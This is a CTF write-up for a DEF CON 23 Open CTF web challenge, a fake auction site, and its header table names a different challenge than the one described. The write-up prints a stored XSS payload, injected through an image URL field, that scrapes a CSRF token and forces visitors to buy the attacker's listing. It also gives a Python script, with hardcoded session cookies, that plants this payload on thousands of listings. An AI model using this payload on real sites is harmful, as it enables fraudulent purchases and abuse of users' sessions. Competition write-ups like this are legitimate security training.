 # CTF write-up: defcon23 open CTF No.09
Challenge | Tags | Point | Author
--- | --- | ---
Sanity Check | binary,exploitation,pwnable | 200 | soen

## English

### Challenge description
Fleabay 100 100 --- Fleabay has gotten really popular, and Mr. Moneybags is perusing the listings - can you sell him $100,000 worth of stuff?
10.0.66.91

### write-up
(in progress)

Auctuary this challange is very simmiller to Fleabay challange in last year.

First, access to the web page.

The web service is to sell and buy some images and exchange money.
The ame is ean a big money.
Our strategy is inject javascript code that another user would force parchasing our stuff.

1. Accessing the web.
2. Create account.
3. Regist the image for sale on it.
4. I found I was able to inject some in image url field. 
Point:
```
<img src="(image field)" />
```
To:
```
<img src=""><script>var r=new XMLHttpRequest();r.open('GET','/listing/XXX/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/XXX/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src="" />
```
XXX is image id.

5. getting authentication information from browser developer tool.
```
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"
```

6. I made auto post script.

exploit.py:
```
import urllib3 # Requires: < 1.9
import re

http = urllib3.PoolManager()
newurl = "http://10.0.66.91/listings/new/"
updateurl = "http://10.0.66.91/listing/%d/edit/"
csrftoken = "rjQFXg4rkYDnzYSykqXoUmyJ7atzIcxG"
sessionid = "07ze6nb37o5cy1sk8rn55jbpto1skzuv"

def do_():
    r = http.request_encode_body('POST', newurl, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item 1","details":"test","image_src":"test","cost":"%u" % (2**32)-1,"csrfmiddlewaretoken":csrftoken,"submit":"Submit"},encode_multipart=False, redirect=False)
    for urllike in re.finditer(r'http://10.0.66.91/listing/([0-9]+)/', r.headers['location']):
        num = int(urllike.group(1))
        r = http.request_encode_body('POST', updateurl % num, headers={"Cookie":"csrftoken=%s;sessionid=%s" % (csrftoken, sessionid)}, fields={"name":"Item %d" % num,"details":"test","image_src":"\"><script>var r=new XMLHttpRequest();r.open('GET','/listing/%(num)d/',true);r.onload=function(){if(r.status>=200&&r.status<400){var d=r.responseText;var c=d.search('csrf_token=.{12}\"');var t=d.substring(c+11,c+11+12);var s=new XMLHttpRequest();s.open('GET','/listing/%(num)d/?buy=1&csrf_token='+t,true);s.send();}};r.send();</script><img src=\"" % dict(num=num),"cost":"%u" % 4294967295 ,"csrfmiddlewaretoken":csrftoken,"Referer":updateurl % num}, encode_multipart=False, redirect=False)
        return num
    else:
        raise ValueError("unexpected response: %d: %s" % (r.status, r.data.decode('utf-8')))

for i in range(2048):
    num = do_()
    print("[+] placed XSS trap on item #%d" % num)
```

7. run the script and wait.

8. login to page with browser.

9. found the key on the page.


